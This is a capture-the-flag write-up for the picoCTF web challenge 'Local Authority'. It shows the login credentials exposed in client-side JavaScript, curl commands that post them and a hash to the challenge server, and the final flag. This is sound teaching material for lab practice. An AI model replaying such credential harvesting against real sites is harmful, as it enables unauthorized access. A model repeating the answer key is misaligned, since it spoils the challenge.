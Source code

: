 # [Local Authority [Web Exploitation] [100 Points]](https://play.picoctf.org/practice/challenge/278?category=1&originalEvent=70&page=1) #

## Description ##
Can you get the flag?
Go to this [website](http://saturn.picoctf.net:64293/) and see what you can discover.

## Hints ##
1. How is the password checked on this website?

## Solution ##

### OPTION 1: Via Web Browser ###

#### Step 1: Description ####
![](images/webpage.png)

![](images/webpage_failed.png)

![](images/webpage_inspectFailed.png)

![](images/webpage_inspectSecure.js.png)

![](images/webpage_login.png)

![](images/webpage_loggedIn.png)

### OPTION 2: Via Kali Linux Terminal ###

       curl -d 'username=admin&password=strongPassword098765' http://saturn.picoctf.net:62954/login.php
* https://everything.curl.dev/http/post/simple.html

![](images/webpage_login.php.png)

       curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php

![](images/webpage_admin.php.png)

       curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php | grep -oE "picoCTF{.*}" | tee >(xsel -b)

![](images/webpage_retrieveFlag.png)

**Result**:

        picoCTF{j5_15_7r4n5p4r3n7_a8788e61}
